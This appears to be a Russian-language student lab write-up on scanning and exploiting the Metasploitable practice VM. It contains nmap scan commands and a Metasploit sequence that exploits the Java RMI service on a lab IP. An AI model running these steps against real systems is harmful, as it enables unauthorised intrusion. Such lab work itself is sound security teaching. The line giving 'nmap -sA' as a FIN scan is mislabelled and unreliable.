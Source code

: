 ### Задание 1

Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.
Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.
Просканируйте эту виртуальную машину, используя **nmap**.
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*  
#### Решение 1

```
nmap -A 192.168.1.36

1099/tcp open  java-rmi    GNU Classpath grmiregistry

msfconsole
use exploit/multi/misc/java_rmi_server
set RHOST 192.168.1.36
exploit

```
![Ex1. Scan nmap](image.png)
![Ex1. Эксплуатация](image-1.png)


### Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.
Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

#### Решение 2

'''
SYN / nmap -sS 192.168.1.36
FIN / nmap -sA 192.168.1.36
Xmas / nmap -sX 192.168.1.36
UDP / nmap -sU 192.168.1.36

Отправляются пакеты с разными флагами.
Сервер отвечает на каждый тип пакета по своему, по ответу можно понять открыт или закрыт порт, в некоторых члучаях сразу видно тип порта и номер.

UDP сканирование самое долгое.
'''

![SYN](image-2.png)
![FIN](image-3.png)
![Xmas](image-4.png)
![UDP](image-5.png)